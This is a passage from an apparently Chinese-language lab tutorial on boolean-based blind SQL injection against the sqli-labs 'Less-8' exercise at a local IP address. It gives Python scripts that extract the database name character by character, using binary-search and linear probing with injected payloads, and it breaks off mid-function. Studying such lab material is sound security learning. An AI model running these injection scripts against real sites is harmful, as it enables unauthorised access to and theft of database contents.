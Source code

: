 二分查找如下：

```python
j = 1
exit_flag = False
while not exit_flag:
    # 总是假设该轮循环会退出
    exit_flag = True
    low = 32
    high = 126
    while high >= low:
        mid = (low + high) // 2
        payload = f"1' and ascii(substr(database(),{j},{j}))={mid} --+"
        r = requests.get(base_url + payload)
        if mark in r.text:
            db_name += chr(mid)
            print('database:', db_name)
            exit_flag = False
            break
        pass

        # another test for narrow down left or right range to search
        payload = f"1' and ascii(substr(database(),{j},{j}))>{mid} --+"
        r = requests.get(base_url + payload)
        if mark in r.text:
            low = mid + 1
        else:
            high = mid - 1
        pass
    j += 1
```

### 完整的代码

```python
import requests
import time

# base_url = "ttp://192.168.3.104/Less-8/?id=1' and ascii(substr(database(),1,1))=115 --+"
base_url = "http://192.168.3.104/Less-8/?id="

mark = 'You are in'


# more detail: https://stackoverflow.com/a/803626/8587335
def measure_time(func):
    start_time = time.time()
    _ = func()
    end_time = time.time()
    print("Time: {} seconds".format(end_time - start_time))


def probe_database_linear():
    db_name = ''
    # params = {'id': "1' and ascii(substr(database(),1,1))=115 --+"}

    # all visible character is: 32( )->126(~)
    j = 1
    exit_flag = False
    while not exit_flag:
        # always assume we will exit in this loop
        exit_flag = True
        for i in range(32, 127):
            payload = f"1' and ascii(substr(database(),{j},{j}))={i} --+"
            r = requests.get(base_url + payload)
```